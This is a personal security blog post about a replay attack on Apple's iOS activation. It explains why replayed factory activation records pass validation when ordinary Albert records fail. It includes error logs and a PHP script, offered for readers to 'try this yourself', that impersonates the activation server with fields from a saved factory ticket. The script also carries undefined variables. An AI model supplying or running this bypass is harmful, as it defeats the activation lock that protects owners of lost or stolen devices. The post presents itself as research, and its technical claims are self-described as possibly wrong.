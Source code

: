 ```yaml
---
title: The activation paradox
published: 2025-06-18
description: Apple's activation mechanism is vulnerable to replay attacks, affected iPhones, iPads, iPods, iWatches
tags: [RE, Hax, Apple, iCloud]
category: Hacking
draft: false
---
```


Read this post on your own risk! The information is based on my own research and my (not-so-good-yet) reverse engineering skills. Thus, this write-up might be incorrect, contains mistakes and turn out partially or completely wrong! Do not trust it blindly and DYOR :\)

---

When it comes to iOS device activation, not all methods are created equal. There are the so called Factory Activation and Albert Activation - both play roles in activating an iPhone e.g. officially or via bypass. While both serve the same fundamental purpose, their security implications vary significantly, particularly when it comes to replay attacks.

In this post, we’ll break down how these activation methods work, why replay attacks are a concern for factory records (but not Albert activations), and what this means for device security. Whether you're a developer, security researcher, or just curious about iOS internals, understanding this "activation paradox" sheds light on Apple's evolving approach to keeping devices secure.

## **Replay attack on albert activation**

When proceeding the normal activation using the default server `https://albert.apple.com/deviceservices/deviceActivation`, we receive an activation record with production signature.

This we can check pretty easy by validating against the known iPhone Activation Certificates which you can find on iOS. These are the typical assigned certificates for the signed components of the record.

- `AccountTokenCertification` -> `iPhoneActivation.pem` (default)
- `AccountTokenSignature` -> `iPhoneActivation.pem` (default)

During the activation, there are performed several checks on several components. For the normal activation, iOS seems to perform more checks than for factory, at least we get the following errors when trying a replay attack:

```
<key>Error</key>
	<string>Failed to activate device. ({
    NSLocalizedDescription = "Failed to activate device.";
    NSUnderlyingError = "Error Domain=com.apple.MobileActivation.ErrorDomain Code=-2 \"Failed to activate device.\" UserInfo={NSLocalizedDescription=Failed to activate device., NSUnderlyingError=0x4ae2e15c0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to validate activation record with factory certificates.\" UserInfo={NSLocalizedDescription=Failed to validate activation record with factory certificates., NSUnderlyingError=0x4ae2e2790 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to verify activation record certificate.\" UserInfo={NSLocalizedDescription=Failed to verify activation record certificate., NSUnderlyingError=0x4ae2e29a0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to verify account token signature.\" UserInfo=0x4ae12cac0 (not displayed)}}}}}}";})
    </string>
```

~> `"Failed to verify account token signature."`

or

```
<key>Error</key>
	<string>Failed to activate device. ({
    NSLocalizedDescription = "Failed to activate device.";
    NSUnderlyingError = "Error Domain=com.apple.MobileActivation.ErrorDomain Code=-2 \"Failed to activate device.\" UserInfo={NSLocalizedDescription=Failed to activate device., NSUnderlyingError=0x4ae2e03f0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to validate activation record with factory certificates.\" UserInfo={NSLocalizedDescription=Failed to validate activation record with factory certificates., NSUnderlyingError=0x4ae2e00f0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"Failed to verify activation record certificate.\" UserInfo={NSLocalizedDescription=Failed to verify activation record certificate., NSUnderlyingError=0x4ae2e15c0 {Error Domain=com.apple.MobileActivation.ErrorDomain Code=-1 \"UCRT public key does not match UIK public key.\" UserInfo=0x4ae12d800 (not displayed)}}}}}}";})
    </string>
```

~> `"UCRT public key does not match UIK public key."`

## **Replay attack on factory activation**

When proceeding the factory activation using a presaved factory record, we get a different result of activation :) The device successfully activates.

Other than the albert activation, the signature of the AccountToken is made via RaptorActivation certificate. When the first activation try fails to validate internally against the iPhoneActivation certificates, it switches to FactoryActivation certificates for validation - and succeeds as the checks performed here are much less than albert.

- `AccountTokenCertification` -> `iPhoneActivation.pem` (default)
- `AccountTokenSignature` -> `RaptorActivation.pem` (*factory*)

If you are wanna try this yourself, just use this basic php script to do so, just paste the components of your factory ticket into the script

```php
<?php

require('CFPropertyList/CFPropertyList.php'); 
require_once('vendor/autoload.php');

$debug=false;
if($debug==true)
{ 
	ini_set('display_errors', 1);
	ini_set('display_startup_errors', 1);
	error_reporting(E_ALL);
}

error_reporting(0);
set_time_limit(0);

if(!isset($_POST['activation-info']) || empty($_POST['activation-info'])) { exit('Method not implemented'); }
if(isset($_POST['activation-info'])) {

    $response =
    '<plist version="1.0">
      <dict>
        <key>'.($deviceClass == "iPhone" ? 'iphone' : 'device').'-activation</key>
        <dict>
          <key>activation-record</key>
          <dict>
            <key>unbrick</key>
            <true/>
            <key>AccountToken</key>
            <data>
            ---AccountToken of your factory ticket---
            </data>
            <key>AccountTokenCertificate</key>
            <data>
            ---AccountTokenCertificate of your factory ticket---
            </data>
            <key>AccountTokenSignature</key>
            <data>
            ---AccountTokenSignature of your factory ticket---
            </data>
            <key>DeviceCertificate</key>
            <data>
            ---DeviceCertificate of your factory ticket---
            </data>
            <key>FairPlayKeyData</key>
            <data>
            ---FairPlayKeyData of your factory ticket---
            </data>
            <key>LDActivationVersion</key>
            <integer>2</integer>
            <key>RegulatoryInfo</key>
            <data>eyJtYW51ZmFjdHVyaW5nRGF0ZSI6bnVsbCwiZWxhYmVsIjp7ImJpcyI6bnVsbCwibWlpdCI6eyJuYWwiOm51bGwsImxhYmVsSWQiOm51bGx9fSwiY291bnRyeU9mT3JpZ2luIjpudWxsfQ==</data>
          </dict>
          <key>show-settings</key>
          <true/>
        </dict>
      </dict>
    </plist>';

    header("ARS: ".base64_encode(hex2bin(hash("sha1", $activation))));
    header('Content-type: application/xml');
    header('Content-Length: '.strlen($response));
    echo $response;

}
```

---

## Disclaimer

This writeup is for **educational purposes only**.

- Do **not** use this for illegal activities.
- Apple may patch this behavior at any time.



© 2025  ~ Hana Kim